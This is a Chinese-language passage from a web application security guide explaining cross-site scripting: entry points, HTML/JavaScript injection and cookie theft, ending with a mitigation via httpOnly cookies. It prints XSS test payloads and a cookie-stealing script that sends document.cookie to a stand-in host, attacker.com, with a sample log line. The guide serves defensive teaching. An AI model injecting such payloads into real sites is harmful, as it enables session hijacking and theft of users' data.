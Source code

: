 #### 入口点

入口点是一个易受攻击的URL及其参数，攻击者可以在此处发起攻击。

最常见的入口点是消息发布、用户评论和留言簿，但项目标题、文档名称和搜索结果页面也可能存在漏洞 - 几乎任何用户可以输入数据的地方。但输入的数据不一定要来自网站上的输入框，它可以在任何URL参数中 - 明显的、隐藏的或内部的。请记住，用户可能会拦截任何流量。应用程序或客户端代理使更改请求变得容易。还有其他攻击向量，如横幅广告。

XSS攻击的工作原理如下：攻击者注入一些代码，Web应用程序保存并在页面上显示它，然后呈现给受害者。大多数XSS示例只是显示一个警报框，但它比这更强大。XSS可以窃取cookie，劫持会话，将受害者重定向到假网站，显示有利于攻击者的广告，更改网站上的元素以获取机密信息，或通过Web浏览器中的安全漏洞安装恶意软件。

在2007年下半年，Mozilla浏览器报告了88个漏洞，Safari报告了22个漏洞，IE报告了18个漏洞，Opera报告了12个漏洞。Symantec全球互联网安全威胁报告还记录了2007年下半年的239个浏览器插件漏洞。[Mpack](https://www.pandasecurity.com/en/mediacenter/malware/mpack-uncovered/)是一个非常活跃和最新的攻击框架，利用了这些漏洞。对于犯罪黑客来说，利用Web应用程序框架中的SQL注入漏洞并在每个文本表列中插入恶意代码非常有吸引力。在2008年4月，超过51万个网站被黑客攻击，其中包括英国政府、联合国和许多其他知名目标。
#### HTML/JavaScript注入

最常见的XSS语言当然是最流行的客户端脚本语言JavaScript，通常与HTML结合使用。_转义用户输入是必不可少的_。

下面是最简单的测试，用于检查XSS：

```html
<script>alert('Hello');</script>
```

这段JavaScript代码将简单地显示一个警告框。下面的示例完全相同，只是位置非常不常见：

```html
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
```

##### Cookie窃取

到目前为止，这些示例都没有造成任何伤害，那么让我们看看攻击者如何窃取用户的cookie（从而劫持用户的会话）。在JavaScript中，您可以使用`document.cookie`属性来读取和写入文档的cookie。JavaScript强制执行同源策略，这意味着来自一个域的脚本无法访问另一个域的cookie。`document.cookie`属性保存了源Web服务器的cookie。但是，如果您直接将代码嵌入到HTML文档中（就像XSS一样），则可以读取和写入此属性。在您的Web应用程序中的任何位置注入以下代码，以在结果页面上查看自己的cookie：

```html
<script>document.write(document.cookie);</script>
```

对于攻击者来说，当然这没有用，因为受害者将看到自己的cookie。下一个示例将尝试从URL http://www.attacker.com/ 加上cookie加载图像。当然，此URL不存在，所以浏览器不显示任何内容。但是攻击者可以查看他们的Web服务器访问日志文件以查看受害者的cookie。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com 上的日志文件将显示如下内容：

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

您可以通过向cookie添加**httpOnly**标志来减轻这些攻击（以明显的方式），以便JavaScript无法读取`document.cookie`。从IE v6.SP1、Firefox v2.0.0.5、Opera 9.5、Safari 4和Chrome 1.0.154开始，可以使用HTTP only cookie。但是其他旧版本的浏览器（如WebTV和Mac上的IE 5.5）实际上可能导致页面无法加载。请注意，使用Ajax仍然可以看到cookie，尽管如此。

##### 网页篡改
